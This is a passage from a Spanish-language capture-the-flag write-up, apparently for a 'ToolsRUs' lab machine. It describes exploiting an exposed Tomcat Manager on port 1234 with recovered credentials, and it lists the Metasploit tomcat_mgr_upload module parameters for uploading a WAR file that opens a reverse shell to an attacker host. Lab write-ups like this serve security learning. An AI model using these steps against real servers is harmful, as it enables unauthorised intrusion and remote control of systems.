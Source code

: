 ![](ToolsRUs%203.png)

Al analizar el entorno expuesto en el puerto `1234`, se detectó:

- **Apache Tomcat Manager Application** disponible en `/manager/html`.
- Permiso de **subida de archivos WAR** a través del panel web de Tomcat Manager.

Con las credenciales (`bob:+++++++`) obtenidas, se procedió a explotar esta funcionalidad.

---

## 4.2 Explotación usando Metasploit

Se utilizó el módulo de Metasploit `exploit/multi/http/tomcat_mgr_upload` para subir un archivo malicioso (`.war`) que contiene un payload de conexión inversa (reverse shell).

**Parámetros configurados:**

|Opción|Valor|
|:-:|:-:|
|RHOSTS|10.10.219.248|
|RPORT|1234|
|TARGETURI|/manager|
|HTTPUSERNAME|bob|
|HTTPPASSWORD|bubbles|
|LHOST|10.6.17.22 (IP del atacante)|
|LPORT|4444|
